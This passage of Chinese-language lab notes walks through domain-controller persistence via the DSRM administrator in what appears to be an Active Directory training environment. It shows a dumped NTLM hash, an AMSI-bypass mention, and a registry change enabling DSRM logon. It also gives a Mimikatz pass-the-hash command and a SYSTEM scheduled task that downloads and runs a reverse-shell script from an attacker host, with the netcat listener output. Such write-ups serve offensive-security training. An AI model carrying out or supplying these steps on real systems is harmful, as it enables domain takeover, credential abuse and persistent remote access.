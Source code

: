RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : af0686cc0ca8f04df42210c9ac980760
```
新的密码是：```af0686cc0ca8f04df42210c9ac980760```

DSRM administrator不允许登陆，用之前的session进入DC修改

要先bypass ASMI

再运行下面命令，修改DSRM的远程登录策略
```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```


现在用DSRM的原始哈希，来运行一个有DA权限的shell,注意，这里的/domain参数指定的是dcorp-dc这台计算机，不是域的名字
```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'
```

验证:
```
PS C:\ad> ls \\dcorp-dc.dollarcorp.moneycorp.local\c$


    Directory: \\dcorp-dc.dollarcorp.moneycorp.local\c$


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/29/2019   1:32 AM                PerfLogs
d-r---        2/16/2019   9:14 PM                Program Files
d-----        7/16/2016   6:23 AM                Program Files (x86)
d-r---       12/14/2019   8:23 PM                Users
d-----        8/20/2020   2:05 AM                Windows
```

可以访问文件系统，但是不能在这台系统上执行命令。

如果想要用DSRM获得一个shell，可以设置一个定时任务


## 制作定时任务：
```
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "User366" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.66/Invoke-PowerShellTcp.ps1''')'"
```

## 触发定时任务
```
schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "User366"
```


获得反弹shell
```
PS C:\ad> .\nc.exe -lnvp 443
listening on [any] 443 ...
connect to [172.16.100.66] from (UNKNOWN) [172.16.2.1] 64272
Windows PowerShell running as user DCORP-DC$ on DCORP-DC
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

